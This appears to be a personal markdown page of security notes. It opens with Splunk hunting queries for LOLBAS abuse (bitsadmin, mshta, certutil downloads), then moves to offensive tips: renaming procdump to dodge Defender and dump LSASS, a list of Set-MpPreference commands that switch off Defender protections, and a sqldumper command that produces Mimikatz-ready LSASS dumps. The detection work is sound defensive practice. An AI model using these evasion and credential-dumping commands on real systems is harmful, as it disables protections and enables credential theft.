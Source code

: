 ```yaml
---
title: "Defensive Notes" 
layout: "post"
---
```


## LOLBAS Use case

In the section below we will implement some LOLBAS use case using Splunk as a framework to perform our hunting activities.

__Note:__ These detections rules are specific to my environment


# 1) Bitsadmin Download File

The following query identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object. 
In addition, look for download or upload on the command-line, the switches are not required to perform a transfer.

```powershell 
| tstats `security_content_summariesonly` count min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_bitsadmin` Processes.process=*transfer* by Processes.dest Processes.user Processes.parent_process Processes.original_file_name Processes.process_name Processes.process Processes.process_id Processes.parent_process_id | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)` | `security_content_ctime(lastTime)` | `bitsadmin_download_file_filter`
```

# 1) powershell

# 2) rundll32

# 3) mshta

The following analytic identifies "mshta.exe" execution with inline protocol handlers. "JavaScript", "VBScript", and "About" are the only supported options when invoking HTA content directly on the command-line.

```powershell
| tstats `security_content_summariesonly` count values(Processes.process) as process values(Processes.parent_process) as parent_process min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_mshta` (Processes.process=*vbscript* OR Processes.process=*javascript* OR Processes.process=*about*) by Processes.user Processes.process_name Processes.original_file_name Processes.parent_process_name Processes.dest  | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)`| `security_content_ctime(lastTime)` | `detect_mshta_inline_hta_execution_filter`
```


# 4) Certutil Download With Urlcache And Split Arguments

Certutil.exe may download a file from a remote destination using -urlcache. This behavior does require a URL to be passed on the command-line. In addition, -f (force) and -split (Split embedded ASN.1 elements, and save to files) will be used.

```powershell
| tstats `security_content_summariesonly` count min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_certutil` Processes.process=*urlcache* Processes.process=*split* by Processes.dest Processes.user Processes.parent_process Processes.process_name Processes.process Processes.process_id Processes.original_file_name Processes.parent_process_id | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)` | `security_content_ctime(lastTime)` | `certutil_download_with_urlcache_and_split_arguments_filter`
```

# 5) wmic


__Note:__ This is not an exaustive list of LOLBAS to monitor but rather a baseline. Your environment define your tailor made detection rules.

https://docs.splunksecurityessentials.com/content-detail/certutil_download_with_urlcache_and_split_arguments/




# Notepad cache

[lazy]People like me use Notepad++ as a note-taking thing. We create a 'new', then never get around to saving them.

They get cached here:
C:\Users\{username}\AppData\Roaming\Notepad++\backup

# Procdump.exe 

If you rename __procdump.exe to __dump64.exe__ and place it in the "C:\Program Files (x86)\Microsoft Visual Studio\*" folder, you can bypass Defender and dump __LSASS__.


# Disable Defender 

```powershell
shell Set-MpPreference -DisableRealtimeMonitoring $true 
shell Set-MpPreference -EnableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableScanningNetworkFiles $true
Set-MpPreference -MAPSReporting 0
Set-MpPreference -DisableCatchupFullScan $True
Set-MpPreference -DisableCatchupQuickScan $True
```

# SQldumper LSASS

0x01100:40 flag will create a Mimikatz compatible dump file.

__sqldumper.exe__ 540 0 0x01100:40

Usecase: Dump __LSASS.exe__ to Mimikatz compatible dump using PID.

